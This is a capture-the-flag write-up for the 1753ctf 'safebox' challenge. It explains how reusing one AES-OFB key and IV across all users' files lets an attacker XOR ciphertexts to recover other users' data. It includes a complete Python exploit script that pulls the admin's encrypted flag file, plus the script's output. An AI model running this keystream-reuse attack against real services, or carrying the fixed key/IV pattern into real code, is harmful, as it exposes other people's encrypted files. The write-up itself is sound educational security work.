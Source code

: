 ```yaml
---
title: safebox writeup
date: 2025-04-12
description: "[web] [crypto] writeup of the safebox challenge from 1753ctf"
tags: ["ctf","web","crypto"]
---
```


# Challenge description

Your files. Encrypted at rest. Premium accounts available soon. // careful, this app is resetting every 15 mintutes

source code:

[safebox](/files/safebox/safebox_src_index.js)


# Solution

we are presented with a site that allows us to register and upload files that will be encrypted (also we can't download them directly by pressing button as it is for 'premium' users only).

files are stored with per-user folders and ecrypted with AES-256-OFB mode. flag is stored in admin's directory

directories names are hashes of usernames, so admin folder is `sha256("admin")`

critical vulnerability is in the encryption implementation:

```javascript
    const key = Buffer.from(process.env.ENCRYPTION_KEY, 'hex');
    const iv = Buffer.from(process.env.ENCRYPTION_IV, 'hex');
```
```javascript
function encrypt(buffer, key, iv) {
    const cipher = crypto.createCipheriv('aes-256-ofb', key, iv);
    let encrypted = cipher.update(buffer);
    encrypted = Buffer.concat([encrypted, cipher.final()]);
    return encrypted;
}
```
the same key and iv are used for encrypting all files accros all users. this means that the same keystream is reused as OFB mode generates it without ingering with the plaintext
https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Output_feedback_(OFB)

xor operation is reversable so:

```
A ⊕ KEY = A_ENC -> KEY = A ⊕ A_ENC
B ⊕ KEY = B_ENC -> KEY = B ⊕ B_ENC
                    ^ these can be transformed to:  
A ⊕ A_ENC = B ⊕ B_ENC
A ⊕ A_ENC ⊕ B_ENC = B
```

so xor-ing the two encrypted files with known plaintext will give us the plaintext of the other file.

solve script in python:

```python
import requests
import hashlib
import json
import base64

BASE_URL = "https://safebox-1bbcbadc1e5d.1753ctf.com"

def register_user(username, password):
    response = requests.post(
        f"{BASE_URL}/api/register",
        json={"username": username, "password": password}
    )
    if response.status_code == 200:
        return response.json()
    else:
        raise Exception(f"registration failed: {response.text}")

def upload_known_file(token, filename, content):
    b64content = base64.b64encode(content).decode('utf-8')
    response = requests.post(
        f"{BASE_URL}/api/upload",
        headers={"x-token": token},
        json={"fileName": filename, "b64file": b64content}
    )
    if response.status_code != 200:
        raise Exception(f"upload failed: {response.text}")

def get_folder_hash(username):
    return hashlib.sha256(username.encode()).hexdigest()

def download_file(token, folder, filename):
    response = requests.get(
        f"{BASE_URL}/files/{folder}/{filename}",
        headers={"x-token": token}
    )
    if response.status_code == 200:
        return response.content
    else:
        raise Exception(f"download failed: {response.status_code}")

def xor_bytes(a, b):
    return bytes(x ^ y for x, y in zip(a, b))

def main():
    # to avoid collisions
    username = "hacker_" + hashlib.md5(str(hash(str)).encode()).hexdigest()[:8]
    password = "hackpass123"
    
    print(f"[+] registering user: {username}")
    user_data = register_user(username, password)
    token = user_data["token"]
    print(f"[+] got token: {token[:10]}...")
    
    #file with known content (all zeros)
    known_content = bytes([0] * 1000)
    filename = "known_file.txt"
    
    print("[+] uploading file with known content")
    upload_known_file(token, filename, known_content)
    
    #folder hash for current user and admin
    user_folder = get_folder_hash(username)
    admin_folder = get_folder_hash("admin")
    print(f"[+] user folder: {user_folder[:10]}...")
    print(f"[+] admin folder: {admin_folder[:10]}...")
    
    #download both encrypted files
    print("[+] downloading our encrypted file")
    encrypted_known = download_file(token, user_folder, filename)
    
    print("[+] downloading encrypted flag")
    encrypted_flag = download_file(token, admin_folder, "flag.txt")
    
    #XOR operations to recover the flag
    # 1. XOR the two encrypted files (cancels out the keystream)
    # 2. XOR with known content to get the flag
    xor_of_encrypted_files = xor_bytes(encrypted_flag, encrypted_known)
    flag_bytes = xor_bytes(xor_of_encrypted_files, known_content)
    
    print("[/] brrr hacking  ")
    #decode as UTF-8
    try:
        flag = flag_bytes.decode('utf-8').strip()
        print(f"[+] decrypted content of flag.txt: {flag}")
    except UnicodeDecodeError:
        print("[!] could not decode flag as UTF-8, printing as hex")
        print(f"[+] flag (hex): {flag_bytes.hex()}")

if __name__ == "__main__":
    main()
```

output:

```bash
[+] registering user: hacker_98fc1f6c
[+] got token: a1f60df5ff...
[+] uploading file with known content
[+] user folder: 221d40be95...
[+] admin folder: 8c6976e5b5...
[+] downloading our encrypted file
[+] downloading encrypted flag
[/] brrr hacking
[+] decrypted content of flag.txt: Well, good this file is encrypted, cause in any other
case someone could just come here and steal my valuable
flag. The flag is 1753c{encrypt3d_but_n0t_s0000_s4fe_b0x}. Cool, huh?

Yes it is!

Sincerely yours,
Mr. Admin
```





